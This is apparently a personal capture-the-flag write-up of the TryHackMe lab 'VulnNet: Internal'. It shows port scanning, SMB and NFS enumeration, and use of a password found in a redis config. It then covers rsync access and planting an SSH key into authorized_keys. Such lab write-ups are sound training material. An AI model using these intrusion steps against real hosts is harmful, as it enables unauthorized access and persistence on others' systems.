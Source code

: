 # VulnNet: Internal 4:36

This is a write-up for the machine VulnNet: Internal located at: [https://tryhackme.com/room/vulnnetinternal](https://tryhackme.com/room/vulnnetinternal)

I ran an nmap scan

```c
nmap -T4 -A 10.10.98.192 -oN nmap_output.txt
```

This is the output I got:

```c
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-23 17:37 EDT
Nmap scan report for 10.10.98.192
Host is up (0.20s latency).
Not shown: 993 closed ports
PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5e:27:8f:48:ae:2f:f8:89:bb:89:13:e3:9a:fd:63:40 (RSA)
|   256 f4:fe:0b:e2:5c:88:b5:63:13:85:50:dd:d5:86:ab:bd (ECDSA)
|_  256 82:ea:48:85:f0:2a:23:7e:0e:a9:d9:14:0a:60:2f:ad (ED25519)
111/tcp  open     rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      34713/tcp   mountd
|   100005  1,2,3      45887/tcp6  mountd
|   100005  1,2,3      46635/udp6  mountd
|   100005  1,2,3      55619/udp   mountd
|   100021  1,3,4      43989/tcp6  nlockmgr
|   100021  1,3,4      46185/tcp   nlockmgr
|   100021  1,3,4      55225/udp   nlockmgr
|   100021  1,3,4      55609/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open     netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
873/tcp  open     rsync       (protocol version 31)
2049/tcp open     nfs_acl     3 (RPC #100227)
9090/tcp filtered zeus-admin
Service Info: Host: VULNNET-INTERNAL; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -39m59s, deviation: 1h09m16s, median: 0s
|_nbstat: NetBIOS name: VULNNET-INTERNA, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: vulnnet-internal
|   NetBIOS computer name: VULNNET-INTERNAL\x00
|   Domain name: \x00
|   FQDN: vulnnet-internal
|_  System time: 2021-09-23T23:38:16+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-09-23T21:38:16
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.51 seconds
```

I then ran **smbmap -H &lt;IP&gt;**, and got the following output:

```c
[+] Guest session       IP: 10.10.98.192:445    Name: 10.10.98.192                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        shares                                                  READ ONLY       VulnNet Business Shares
        IPC$                                                    NO ACCESS       IPC Service (vulnnet-internal server (Samba, Ubuntu))
```

I then ran **smbclient \\\\10.10.98.192\\shares**, and got the following output:

```c
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Feb  2 04:20:09 2021
  ..                                  D        0  Tue Feb  2 04:28:11 2021
  temp                                D        0  Sat Feb  6 06:45:10 2021
  data                                D        0  Tue Feb  2 04:27:33 2021

                11309648 blocks of size 1024. 3278156 blocks available
```

In the **temp** folder, there was the following file:

```c
smb: \temp\> ls
  .                                   D        0  Sat Feb  6 06:45:10 2021
  ..                                  D        0  Tue Feb  2 04:20:09 2021
  services.txt                        N       38  Sat Feb  6 06:45:09 2021
```

In the **data** folder, there was the following file:

```c
smb: \data\> ls
  .                                   D        0  Tue Feb  2 04:27:33 2021
  ..                                  D        0  Tue Feb  2 04:20:09 2021
  data.txt                            N       48  Tue Feb  2 04:21:18 2021
  business-req.txt                    N      190  Tue Feb  2 04:27:33 2021
```

Looking through the files, I found the flag for the services.txt:

![](../../.gitbook/assets/image%20%28204%29.png)

I then ran a **metasploit** module **auxiliary/scanner/rsync/modules\_list**. This is what I got from the result from it:

![](../../.gitbook/assets/image%20%28208%29.png)

I then read [this write-up](https://cyberrat.medium.com/vulnnet-internal-tryhackeme-cad6ccb9ad54) and realized that I did not use the **showmount** command. I then followed the write-up to run  **showmeant -e &lt;IP&gt;**. I then got the following:

![](../../.gitbook/assets/image%20%28205%29.png)

I then mounted the system to my machine:

![](../../.gitbook/assets/image%20%28207%29.png)

Viewing through the files I came across some sort of password in the redis.conf file:

![](../../.gitbook/assets/image%20%28203%29.png)

I then followed the same write-up to understand my next step. This was to use **redis-cli** in order to connect to the database and see what is there using the pasword we found earlier. I ran **redis-cli -h 10.10.98.192 -a &lt;requirepass\_from\_earlier&gt;** in order to login to the database. I then was able to find the flag for internal:

![](../../.gitbook/assets/image%20%28202%29.png)

When I ran **LRANGE authlist 1 20**, I got the following:

![](../../.gitbook/assets/image%20%28199%29.png)

The three values were the exact same, and seemed to be base64 encoded. I decoded it online and got the following:

![](../../.gitbook/assets/image%20%28206%29.png)

So now we have to connect to rsync with this password:

![](../../.gitbook/assets/image%20%28201%29.png)

There is a sys-internal directory that I ave to find a way to get access into. I followed the aforementioned write-up and ran the following commands \(tweaked to work for me\):

```c
mkdir local_storage
rsync -av rsync://rsync-connect@10.10.98.192/files local_storage
```

This allowed me to download the folder to my local drive. In that directory, I found the user.txt file:

![](../../.gitbook/assets/image%20%28200%29.png)

I got stuck here, so I had to view the write-up again. I was meant to create an SSH keypair and upload it using rsync. So I ran the following commands:

```c
ssh-keygen -t rsa 
cat internals.pub | tee authorized_keys && chmod 600 authorized_keys
rsync -av authorized_keys rsync://rsync-connect@10.10.98.192/files/sys-internal/.ssh  
```

For the previous step, I ended up getting stuck, and found [this write-up](https://muzec0318.github.io/posts/vulnet.html) that actually clarified the situation for me.

